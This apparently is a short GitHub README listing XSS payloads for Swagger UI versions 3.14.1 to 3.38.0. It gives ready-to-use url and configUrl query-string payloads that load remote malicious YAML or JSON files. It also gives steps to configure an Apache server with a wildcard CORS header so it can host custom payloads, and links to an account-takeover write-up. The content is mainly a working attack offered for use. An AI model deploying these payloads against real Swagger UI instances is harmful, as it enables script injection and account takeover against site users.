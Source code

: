 # Swagger UI >=3.14.1 < 3.38.0 XSS payload

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/VictorNS69/swagger-ui-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/

test.json -> test.yaml
`?configUrl=https://xxx.xxx.xxx/test.json`

### `apache CORS bug（NO bug）`
`a2enmod headers`

`vim /etc/apache2/apache2.conf`

```
<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
        Header set Access-Control-Allow-Origin "*"
</Directory>
```

`apachectl -t`

`sudo systemctl restart apache2` or `sudo service apache2 restart`



## From :)

https://github.com/VictorNS69/swagger-ui-xss

https://github.com/seanmarpo/swagger-xss-payloads#swagger-xss-payloads
